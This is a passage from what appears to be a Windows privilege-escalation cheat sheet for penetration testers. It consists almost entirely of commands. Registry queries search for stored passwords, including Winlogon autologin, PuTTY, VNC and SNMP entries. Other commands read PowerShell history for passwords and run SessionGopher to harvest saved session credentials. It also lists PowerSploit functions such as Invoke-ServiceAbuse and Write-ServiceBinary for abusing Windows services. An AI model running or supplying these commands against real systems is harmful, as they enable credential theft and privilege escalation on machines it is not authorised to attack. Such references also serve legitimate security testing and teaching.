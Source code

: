 ```bat
REG QUERY HKLM /F "password" /t REG_SZ /S /K
REG QUERY HKCU /F "password" /t REG_SZ /S /K
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password


REG QUERY "HKLM\Software\Microsoft\FTH" /V RuleList

Get-ItemProperty -Path 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\WinLogon' | select "Default*"
```

### In services

```bat
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module <full_path>\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```
> Full path is mandatory for Import-Module

### in Powershell history

```bat
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

---

## **Services**

### Tools

```bat
- SeatBelt.exe
- SharpUp.exe

- PowerSploit
Get-ServiceDetail
Get-ModifiableService | more
Invoke-ServiceAbuse

Get-ModifiableServiceFile | more
Write-ServiceBinary
```
